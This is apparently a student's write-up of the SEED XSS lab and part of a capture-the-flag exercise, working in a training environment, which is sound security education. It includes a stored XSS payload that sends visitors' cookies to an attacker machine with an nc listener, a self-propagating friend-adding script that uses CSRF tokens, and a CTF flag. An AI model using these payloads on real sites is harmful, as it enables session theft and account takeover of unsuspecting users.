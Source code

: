 # Cross-Site Scripting (XSS) Attack Lab

## Task 1

- Logged in as Alice, since their credentials are displayed in the lab guide (username: alice, password: seedalice).
- Clicked the *Edit Profile* button and set the Brief Description with the string:
`<script>alert('hello')</script>`
- After visiting Alice's profile page, the user is surprised by a pop-up, meaning that the Javascript code was executed.

![Task 1 screenshot](images/Lab5Task1.png)

## Task 2

- The procedure is similar to the previous task, but the content of the pop-up is now replaced by the user's cookies, stored in the variable `document.cookie`

![Task 2 screenshot](images/Lab5Task2.png)

## Task 3

- Similarly to the previous tasks, edit the Brief Description of Alice's profile, but this time its content will be the string:
`<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');</script>`
- This way, when some user visits Alice's profile, an HTTP GET request will be sent to the attacker's machine.
- The attacker's machine must be listening on the port 5555, done by executing the following command:
`nc -lknv 5555`
- When the HTTP GET request is received, the cookies of the user that visited Alice's profile become available to the attacker.

![Task 3 screenshot](images/Lab5Task3.png)

## Task 4

- Log in as Alice and manually add Samy as a friend, by visiting his profile page and clicking on the button *Add friend*.
- Check the HTTP request of that action by using a Firefox add-on called HTTP Header Live.
- Based on the request URL, change the value of the variable `sendurl`:
`var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token`
- Log in as Samy using the given credentials (username: samy, password: seedsamy).
- Edit his profile by inserting the following script in the About Me section, using the *Text mode*, which is done by clicking on the button *Edit HTML*:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the HTTP request to add Samy as a friend
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

- Log in as Boby, using the given credentials (username: boby, password: seedboby) and visit Samy's profile. By refreshing the page, it's possible to see that Boby instantly became Samy's friend.

- Question 1 answer:
    - Lines ➀ and ➁ are stored as variables given those are dynamic security tokens unique to a user that enters Samy's profile page, which are required security parameters to add Samy as a friend.
- Question 2 answer:
    - We were unable to launch an attack in the *Editor Mode*, given that it sanitizes the input of some characters, such as "<" or ">" signs, making Javascript insertion impossible.

![Task 4 screenshot](images/Lab5Task4.png)

# Capture The Flag

## Challenge 1:

- Do a submission of an arbitrary justification and noticed that the page of the request has two buttons and one of them is called "Give the flag".
- By analyzing the HTML code of the page, we conclude that this button id is "giveflag".
- As the name says, the action of this button returns the flag of this challenge, so all we need to do is to click on it.
- This can be done by injecting Javascript code by entering the following string in the justification field:
```Javascript
<script>document.getElementById("giveflag").click()<script>
```
- Submit 1st flag ("**flag{8620558bac7f21c09ec60e0bcafc2bb1}**")

## Challenge 2:

- Downloaded the files provided for this CTF.
- Executed the `checksec program` command to analyse the program compilation protections and noticed the following characteristics:
    - No RELRO
    - No canary found
    - NX disabled
    - PIE enabled
    - No RPATH
    - No RUNPATH
- The line 12 of the code has a vulnerability, since the function *gets* keeps reading the input until it founds a newline/EOF character, independentely of the size of the variable where the program stores that input.
- 